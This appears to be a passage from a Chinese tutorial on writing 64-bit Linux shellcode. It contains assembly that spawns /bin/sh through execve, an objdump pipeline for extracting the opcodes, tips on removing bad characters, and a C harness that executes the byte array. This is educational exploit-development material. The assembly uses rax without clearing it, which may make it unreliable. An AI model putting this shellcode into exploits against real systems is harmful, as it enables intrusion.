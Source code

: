 例 64位写execve("/bin/sh", ["/bin/sh"], NULL)

```
global _start
section .text
 
_start:
	; execve("/bin/sh", ["/bin/sh"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '//bin/sh', rsi = '//bin/sh'
	xor		rdx, rdx
	mov		qword rbx, '//bin/sh'		; 0x68732f6e69622f2f
	shr		rbx, 0x8
	push		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```

## 3.提取机器码

```
objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

## 4.查看机器码中是否存在 bad character 若存在需要消除

消除赋值产生bad character    

消除有关地址产生的bad character 

 具体操作查看示例中

## 5.c语言验证

```
#include <stdio.h>
#include <string.h>
int main()
{
 	const char shellcode[] = "";
    printf("Shellcode length: %d bytes\n",(int)strlen(shellcode));
    //printfshellcode 长度
    //当shellcode包含空字符时，printf 将会打印出错误的 shellcode 长度
    (*(void(*)())shellcode)();
}
```




